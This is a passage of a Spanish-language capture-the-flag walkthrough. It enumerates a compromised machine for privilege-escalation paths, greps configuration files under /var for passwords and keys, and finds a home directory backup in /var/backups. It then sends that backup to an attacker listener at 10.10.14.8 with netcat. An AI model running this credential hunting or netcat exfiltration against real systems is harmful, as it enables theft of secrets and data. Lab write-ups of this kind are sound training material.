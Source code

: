 #### Analizamos el systema {-}

```bash
id
sudo -l
cd /
find \-perm -4000 2>/dev/null
cat /etc/crontab
ls -l /var/spool/cron
```

No vemos nada. Tendremos que pasar por el sistema web

```bash
cd /var
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep "config"
find \-type f 2>/dev/null | grep "config" | xargs grep "password" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v "debconf"
find \-type f 2>/dev/null | grep "config" | xargs grep -E "username|password|key|database" 2>/dev/null | grep -v -E "debconf|keyboard"
```

Tampoco vemos algo aqui.

```bash
cd /var
find \-type f 2>/dev/null | grep -v -E "lib|cache"
```

Aqui vemos algo que podria ser interesante.

```bash
cd /var/backups
ls -l
```

Vemos un `home.tar.gz` y tenemos derecho de visualizar

#### Nos enviamos el home.tar.gz {-}

1. En la maquina de atacante

    ```bash
    nc -nlvp 443 > home.tar.gz
    ```

1. En la maquina victima

    ```bash
    nc 10.10.14.8 443 < home.tar.gz
    ```

1. Hacemos un md5sum para ver la integridad de la data
